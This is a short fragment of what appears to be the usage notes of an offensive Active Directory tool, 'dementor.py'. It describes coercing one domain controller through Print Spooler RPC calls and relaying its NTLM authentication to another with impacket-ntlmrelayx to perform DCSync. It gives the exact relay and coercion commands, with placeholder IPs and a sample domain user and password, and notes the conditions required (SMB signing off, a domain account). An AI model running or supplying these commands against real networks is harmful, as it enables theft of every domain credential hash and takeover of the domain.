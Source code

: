 	Desc:
			Use Sprint Spooler service, specific functions: RpcRemoteFindFirstPrinterChangeNotification and RpcRemoteFindFirstPrinterChangeNotificationEx to relay the ntlm hash of a DC01 to DC02 in order to perform DCsync.
		

	 Usage:
		We need SMB signing off on DCs
		impacket-ntlmrelayx -t dcsync://dc2-ip -smb2support
		Relaying to dc02
		python3 ./dementor.py attacker-ip dc1-ip -u bob -d eagle.local -p Slavi123
		we need domain user if attacking from a non domain computer
		
